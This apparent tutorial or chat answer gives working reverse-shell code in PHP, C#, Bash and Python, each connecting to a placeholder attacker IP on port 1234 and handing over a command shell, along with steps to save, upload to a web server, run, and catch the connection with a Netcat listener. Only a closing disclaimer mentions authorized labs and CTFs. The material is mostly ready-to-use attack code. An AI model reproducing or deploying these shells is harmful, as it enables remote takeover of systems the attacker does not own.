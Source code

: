 A **reverse shell** connects to an attacker's IP address and port and then spawns a shell (`/bin/sh`) to execute commands sent by the attacker.


```php
<?php
$ip = '<Attacker-IP>';
$port = 1234;
$sock = fsockopen($ip, $port);
exec("/bin/sh -i <&3 >&3 2>&3");
?>
```

### **Explanation of the PHP Reverse Shell:**
1. **`$ip = '<Attacker-IP>';`**  
   - This is the IP address of the attacker. Replace `<Attacker-IP>` with the attacker's IP.
   
2. **`$port = 1234;`**  
   - The port that the victim machine will connect to. Replace `1234` with the port number the attacker is listening on.

3. **`$sock = fsockopen($ip, $port);`**  
   - This function establishes a socket connection to the attacker's IP and port.

4. **`exec("/bin/sh -i <&3 >&3 2>&3");`**  
   - This command runs a shell (`/bin/sh`) and redirects its input, output, and error streams to the established socket (file descriptor 3), allowing the attacker to interact with the shell remotely.

---

### **How to Save the PHP Script:**

To save this PHP reverse shell script, follow these steps:

1. **Create a PHP file**:
   - Open a text editor like **Notepad** (Windows), **TextEdit** (Mac), or any IDE you prefer.
   
2. **Copy the PHP code**:
   - Copy the PHP code you provided into the text editor.

3. **Save the File**:
   - In the text editor, save the file with a `.php` extension, for example, `reverse_shell.php`.

### **Running the PHP Reverse Shell:**
Once saved, the script would need to be placed on a web server or executed on the target machine. The server must have PHP installed and configured to run the script. To run the reverse shell:

1. **Web Server Deployment**:  
   If you're deploying this PHP script on a web server (e.g., Apache, Nginx), upload the file to a directory accessible via a browser. The script will automatically execute when accessed, making a connection back to the attacker's IP and port.

2. **Command Line Execution**:  
   If you're executing this on a local machine with PHP installed, run the script from the terminal:
   ```sh
   php reverse_shell.php
   ```

3. **Attacker Side**:  
   The attacker would typically run a listener (like **Netcat**) on their machine to accept incoming connections from the victim:
   ```sh
   nc -lvp 1234
   ```

---

### **Saving as C#, Shell Script, or Python**:

To convert this PHP code into a **C#**, **Shell Script**, or **Python** script for saving and executing on other platforms, here’s how it might look:

---

### **C# Version:**

```csharp
using System;
using System.IO;
using System.Net.Sockets;

class ReverseShell
{
    static void Main()
    {
        string ip = "<Attacker-IP>"; // Replace with attacker's IP
        int port = 1234; // Replace with port
        using (TcpClient tcpClient = new TcpClient(ip, port))
        using (NetworkStream stream = tcpClient.GetStream())
        using (StreamWriter writer = new StreamWriter(stream))
        using (StreamReader reader = new StreamReader(stream))
        {
            while (true)
            {
                writer.Write("Shell> ");
                writer.Flush();

                string command = reader.ReadLine();
                if (command.ToLower() == "exit")
                    break;

                var process = new System.Diagnostics.Process();
                process.StartInfo.FileName = "cmd.exe"; // For Windows
                process.StartInfo.Arguments = "/C " + command; // Execute command
                process.StartInfo.RedirectStandardOutput = true;
                process.StartInfo.UseShellExecute = false;
                process.Start();

                string output = process.StandardOutput.ReadToEnd();
                writer.WriteLine(output);
                writer.Flush();
            }
        }
    }
}
```

**To save**:
1. Open a text editor.
2. Paste the code into a file.
3. Save the file as `ReverseShell.cs`.

**To compile and run**:
1. Open a terminal and navigate to the directory with the C# script.
2. Compile using the C# compiler:
   ```sh
   csc ReverseShell.cs
   ```
3. Run the resulting executable:
   ```sh
   ReverseShell.exe
   ```

---

### **Shell Script Version (Linux)**:

```bash
#!/bin/bash
exec 5<>/dev/tcp/<Attacker-IP>/1234
cat <&5 | while read line; do
    $line 2>&1 | tee /dev/fd/5
done
```

**To save**:
1. Open a terminal and use a text editor like `nano` or `vim`:
   ```sh
   nano reverse_shell.sh
   ```
2. Paste the script and save it (`Ctrl+X`, then `Y` to confirm).

**To run**:
```sh
chmod +x reverse_shell.sh
./reverse_shell.sh
```

---

### **Python Version**:

```python
import socket
import subprocess

ip = "<Attacker-IP>"  # Replace with attacker's IP
port = 1234  # Replace with port

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))

while True:
    command = s.recv(1024).decode('utf-8')
    if command.lower() == 'exit':
        break
    output = subprocess.run(command, shell=True, capture_output=True)
    s.send(output.stdout + output.stderr)

s.close()
```

**To save**:
1. Open a text editor.
2. Paste the code and save it as `reverse_shell.py`.

**To run**:
```sh
python3 reverse_shell.py
```

---

### **Security Disclaimer:**
The code you've provided (and the other versions) is **illegal** to run on systems you do not own or have explicit permission to attack. Running this on unauthorized systems can result in severe legal consequences. It is **critical** to use this code **only in controlled, ethical environments** like penetration testing labs or CTF competitions with proper authorization.

---
